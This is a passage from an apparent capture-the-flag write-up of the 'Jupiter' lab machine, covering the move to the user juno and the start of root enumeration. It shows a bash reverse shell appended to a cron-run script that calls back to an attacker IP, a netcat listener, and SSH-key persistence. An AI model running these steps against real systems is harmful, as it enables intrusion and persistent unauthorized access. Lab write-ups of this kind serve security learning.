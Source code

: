 I apply this and after a while I run /tmp/bash -p and get a shell as juno !

<figure><img src="../../.gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure>

But if I try to cat user.txt, I get permission denied due to my uid not being juno. We know that shadow-simulation.sh (which is a file in juno's directory) is run every two minutes, but now we have permissions as juno so we can edit it and get a reverse shell from this script, I use a line from revshells.com.

```
bash-5.1$ cat shadow-simulation.sh
#!/bin/bash
cd /dev/shm
rm -rf /dev/shm/shadow.data
/home/juno/.local/bin/shadow /dev/shm/*.yml
cp -a /home/juno/shadow/examples/http-server/network-simulation.yml /dev/shm/
bash -i >& /dev/tcp/10.10.16.74/1244 0>&1
```

```
   ~ nc -lvnp 1244
Connection from 10.10.11.216:60936
bash: cannot set terminal process group (45335): Inappropriate ioctl for device
bash: no job control in this shell
juno@jupiter:/dev/shm$
```

```
juno@jupiter:~$ cat user.txt
cat user.txt
5de6512a71cd*******************
juno@jupiter:~$
```

And we have got our user!

I add myself to the .ssh/authorized\_keys file just for convience purposes and proceed with root.

## Root

I run linpeas as usual and the user juno has a group set as science.

8. Besides the juno group, what other group is juno a part of? science

<figure><img src="../../.gitbook/assets/image (43).png" alt=""><figcaption></figcaption></figure>
